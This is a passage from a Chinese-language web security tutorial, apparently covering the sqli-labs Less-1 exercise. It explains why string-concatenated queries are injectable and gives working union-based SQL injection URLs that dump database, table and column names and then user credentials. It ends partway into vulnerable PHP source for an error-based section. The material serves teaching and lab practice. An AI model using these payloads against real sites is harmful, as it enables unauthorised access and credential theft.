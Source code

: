 **sql注入漏洞的产生需要满足以下两个条件：**

1. 参数用户可控：前端传给后端的参数内容是用户可以控制的。
2. 参数代入数据库查询：传入的参数拼接到SQL语句，且带入数据库查询。

上面代码的SQL语句为：
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1"
```

当传入的参数为`1`时<br />查询语句为：`SELECT * FROM users WHERE id='1' LIMIT 0,1`<br />页面返回正常

当传入的参数为`1'`时<br />查询语句为：`SELECT * FROM users WHERE id='1'' LIMIT 0,1`这不符合规范<br />页面报错

当传入的参数为`1'--+`时<br />查询语句为：`SELECT * FROM users WHERE id='1'--+' LIMIT 0,1`<br />此时实际执行的语句为：`SELECT * FROM users WHERE id='1'`<br />页面返回正常，说明存在Union注入。

由此可以初步判断ID参数存在SQL注入漏洞,可以进一步拼接SQL语句进行攻击。

查看数据库
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
```
![image.png](_img/02-Web安全/01-基础知识/1671086549896-3b9d6213-f8bf-409d-99ae-5746dcd4e7ff.png)

查询security库里面的表
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
```
![image.png](_img/02-Web安全/01-基础知识/1671086603596-2ec6ff62-2a15-4241-9268-f9f217bc892b.png)

查询users表里面的字段
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
```
![image.png](_img/02-Web安全/01-基础知识/1671086653068-5396e3f3-a3f1-4b30-9f6e-e0dade5f8496.png)

查询username 和password
```sql
http://192.168.1.8/Less-1/?id=-1' union select 1,2,group_concat(username,password) from security.users--+
```
![image.png](_img/02-Web安全/01-基础知识/1671086768844-44b0d39a-3812-4e42-9969-01cc229f57c1.png)


# 三、报错注入

## 3.1、代码分析
```php
<?php
  //including the Mysql connect parameters.
  include("../sql-connections/sql-connect.php");
error_reporting(0);
// take the variables
if(isset($_GET['id']))
{
  $id=$_GET['id'];
  //logging the connection parameters to a file for analysis.
  $fp=fopen('result.txt','a');
  fwrite($fp,'ID:'.$id."\n");
  fclose($fp);

  // connectivity 
```